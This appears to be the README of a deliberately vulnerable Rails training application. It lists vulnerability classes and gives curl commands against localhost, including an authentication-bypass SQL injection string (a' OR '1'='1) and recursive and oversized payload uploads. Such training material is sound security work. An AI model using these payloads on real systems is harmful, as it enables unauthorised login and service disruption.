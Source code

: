 Vulnerabilities:

[![Git](https://app.soluble.cloud/api/v1/public/badges/59b010de-cafb-45a5-9c32-ea17583406e6.svg?orgId=560723739106)](https://app.soluble.cloud/repos/details/github.com/bhuvi11/dvra?orgId=560723739106)  
 
0. Sensitive info saved unencrypted

1. Parameters tampering
 - Body params tampering
 - Cookie tampering 

2. SQL Injection
    curl --data "email=a' OR '1'='1&password=a' OR '1'='1" http://localhost:3000/sessions.json

3. Coercive Parsing
 - Recursive Payloads
    curl --data @recursive.txt http://localhost:3000/sessions.json
 - Oversized Payloads
    curl --data @oversized.txt http://localhost:3000/sessions.json

4. Session Hijacking

